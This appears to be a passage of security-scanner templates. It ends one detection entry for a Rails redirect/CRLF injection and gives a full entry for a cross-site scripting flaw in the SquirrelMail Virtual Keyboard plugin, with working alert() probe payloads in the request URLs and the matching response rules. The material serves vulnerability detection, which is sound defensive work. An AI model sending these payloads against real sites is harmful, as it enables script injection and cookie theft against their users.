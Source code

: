 - {{BaseURL}}/rails/actions?error=ActiveRecord::PendingMigrationError&action=Run%20pending%20migrations&location=%0djavascript:alert(1)//%0aaaaaa
### Matchers

**Type - word**
- words
    1. javascript:alert(1)
- part - body

**Type - status**
- status
    1. 302

**Type - word**
- words
    1. Location: aaaaa
    2. text/html
- part - header
- condition - and

---
# SquirrelMail Virtual Keyboard \<=0.9.1 - Cross-Site Scripting
## Description
- SquirrelMail Virtual Keyboard plugin 0.9.1 and prior contains a cross-site scripting vulnerability via the vkeyboard.php parameter. It fails to properly sanitize user-supplied input, which allows an attacker to execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - xss,squirrelmail,plugin,edb
## Requests
- Method - GET
### URL
- {{BaseURL}}/plugins/vkeyboard/vkeyboard.php?passformname=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- words
    1. text/html
- part - header

---
